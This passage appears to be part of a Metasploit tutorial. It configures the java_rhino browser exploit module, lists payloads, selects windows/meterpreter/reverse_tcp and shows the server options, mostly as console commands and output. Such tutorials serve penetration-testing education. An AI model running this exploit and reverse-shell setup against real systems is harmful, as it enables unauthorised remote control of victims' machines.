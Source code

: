 	
	msf exploit(java_rhino) > set target 1
	target => 1
	msf exploit(java_rhino) >

### Configure Payload

To see the full list of available payload you can run the following:

	msf exploit(java_rhino) > show payloads
	
	Compatible Payloads
	===================
	
	   Name                                                Disclosure Date  Rank    Description
	   ----                                                ---------------  ----    -----------
	   generic/custom                                                       normal  Custom Payload
	   generic/debug_trap                                                   normal  Generic x86 Debug Trap
	   generic/shell_bind_tcp                                               normal  Generic Command Shell, Bind TCP Inline
	   generic/shell_reverse_tcp                                            normal  Generic Command Shell, Reverse TCP Inline
	   generic/tight_loop                                                   normal  Generic x86 Tight Loop
   
The list can get pretty long. We want to use the **windows/meterpeter/reverse_tcp** payload. There are a lot of good information regarding that payload at [About the Metasploit Meterpreter](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/):

> Meterpreter is an advanced, dynamically extensible payload that uses in-memory DLL injection stagers and is extended over the network at runtime. It communicates over the stager socket and provides a comprehensive client-side Ruby API. It features command history, tab completion, channels, and more.
> 
> Metepreter was originally written by skape for Metasploit 2.x, common extensions were merged for 3.x and is currently undergoing an overhaul for Metasploit 3.3. The server portion is implemented in plain C and is now compiled with MSVC, making it somewhat portable. The client can be written in any language but Metasploit has a full-featured Ruby client API.

So let's see the available options for that payload:

	msf exploit(java_rhino) > set payload windows/meterpreter/reverse_tcp
	payload => windows/meterpreter/reverse_tcp
	msf exploit(java_rhino) > show options
	
	Module options (exploit/multi/browser/java_rhino):
	
	   Name     Current Setting  Required  Description
	   ----     ---------------  --------  -----------
	   SRVHOST  192.168.1.30     yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
	   SRVPORT  80               yes       The local port to listen on.
	   SSL      false            no        Negotiate SSL for incoming connections
	   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
	   URIPATH  /                no        The URI to use for this exploit (default is random)
	